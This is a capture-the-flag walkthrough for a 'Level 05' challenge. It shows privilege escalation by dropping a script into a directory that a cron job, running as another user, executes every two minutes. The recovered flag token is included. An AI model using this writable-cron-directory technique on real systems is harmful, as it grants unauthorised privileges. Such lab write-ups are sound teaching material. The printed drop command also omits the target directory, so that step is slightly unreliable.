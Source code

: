 # Level 05

On SSH login, `You have new mail` appears on stdout. Mails are stored at `/var/mail/$USER`.

The mail represents a cron task.

```bash
cat /var/mail/level05
# */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
# Minute / Hour / Day / Month / Day of the week
```

The task launched is

```bash
cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

`ulimit` info https://ss64.com/bash/ulimit.html

In this case, `ulimit` sets the maximum amount of cpu time to 5. `bash -x` starts bash in tracing mode. This script executes all scripts in `/opt/openarenaserver/` then deletes them. By placing a file and waiting 2 minutes, we can see that the cron job is on.

```bash
echo "getflag > /tmp/res" > test
cat /tmp/res
# Check flag.Here is your token : viuaaale9huek52boumoomioc
```